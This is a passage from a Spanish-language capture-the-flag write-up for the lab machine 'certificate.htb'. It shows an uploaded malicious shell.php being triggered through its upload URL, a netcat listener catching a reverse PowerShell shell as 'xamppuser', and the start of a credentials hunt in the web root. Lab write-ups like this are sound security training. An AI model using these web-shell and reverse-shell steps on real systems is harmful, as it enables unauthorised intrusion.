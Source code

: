 
Intentaremos abrir nuestro archivo malicioso `shell.php`, para eso cambiaremos la ruta tal como lo definimos a la hora de comprimir el archivo

~~~ http
http://certificate.htb/static/uploads/8cab52ee39a496bcb224cdb3e5d654d6/evil/shell.php
~~~


## Shell as `xamppuser`

Desde nuestro listener recibiremos una consola de `powershell` como el usuario que ejecuta el servicio web, en este caso, `xamppuser`

~~~ bash
rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.123] from (UNKNOWN) [10.10.11.71] 52234

PS C:\xampp\htdocs\certificate.htb\static\uploads\8cab52ee39a496bcb224cdb3e5d654d6\evil> whoami
certificate\xamppuser
~~~


## Credentials Leakage

Cambiaremos de directorio para ubicarnos en la raíz de la ruta donde se alojan los archivos del servidor web

~~~ powershell
PS C:\xampp\htdocs\certificate.htb> cd ..\..\..\..\
PS C:\xampp\htdocs\certificate.htb> dir

    Directory: C:\xampp\htdocs\certificate.htb
    
Mode                LastWriteTime         Length Name               
----                -------------         ------ ----
d-----       12/26/2024   1:49 AM                static
-a----       12/24/2024  12:45 AM           7179 about.php
-a----       12/30/2024   1:50 PM          17197 blog.php
-a----       12/30/2024   2:02 PM           6560 contacts.php
-a----       12/24/2024   6:10 AM          15381 course-details.php
-a----       12/24/2024  12:53 AM           4632 courses.php
-a----       12/23/2024   4:46 AM            549 db.php
-a----       12/22/2024  10:07 AM           1647 feature-area-2.php
-a----       12/22/2024  10:22 AM           1331 feature-area.php
-a----       12/22/2024  10:16 AM           2955 footer.php
-a----       12/23/2024   5:13 AM           2351 header.php
-a----       12/24/2024  12:52 AM           9497 index.php
-a----       12/25/2024   1:34 PM           5908 login.php
-a----       12/23/2024   5:14 AM            153 logout.php
-a----       12/24/2024   1:27 AM           5321 popular-courses-area.php
-a----       12/25/2024   1:27 PM           8240 register.php
-a----       12/28/2024  11:26 PM          10366 upload.php  
~~~
